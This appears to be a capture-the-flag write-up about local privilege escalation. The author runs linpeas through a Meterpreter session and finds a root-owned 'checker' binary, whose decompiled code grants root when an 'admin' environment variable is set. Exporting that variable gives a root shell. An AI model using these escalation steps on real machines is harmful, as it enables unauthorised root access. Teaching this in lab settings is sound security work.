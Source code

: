 I was admitadly having some trouble spotting anything out of the ordinary so I just booted up linpeas from my merterpreted to see if it could spot any mishaps
```
cd /tmp/
upload linpeas.sh 
shell
chmod 755 linpeas.sh
./linpeas.sh
```

Finally getting my linpeas setup we see that linpeas has found a bin on thats odd. Its called checker and its run as root. 

Its a shared library so we have to get our reversing tools out. Ghidra, Cutter, R2, and even terminal reversing are an option. Im going to use Cutter though since the UI is clean.

```

undefined8 main(void)
{
    int64_t iVar1;
    uint32_t var_1h;
    
    iVar1 = getenv(0x7f4);
    if (iVar1 == 0) {
        puts(0x804);
    } else {
        setuid(0);
        system(0x7fa);
    }
    return 0;
}


```

Here we have the decompiled main function. Going back I should have fixed the function signature of main but its fine I got the general jist of this program. We can see theres an else clause that sets our UID to 0 which is what we want because that means this program (for some reason) has capability to make us root. 

Further looking at the binary shows a string called admin and not and admin.  Which means that my initial guess was right.

The program is getting my enviorment variable to see if I am root or not. 

from here we can just 

```
$export admin=admin
$/usr/sbin/checker
$whoami
root

```
The rest is pretty straight forward find the user.txt file that may or may not be in a certain media directory and go to root home and find root flag.







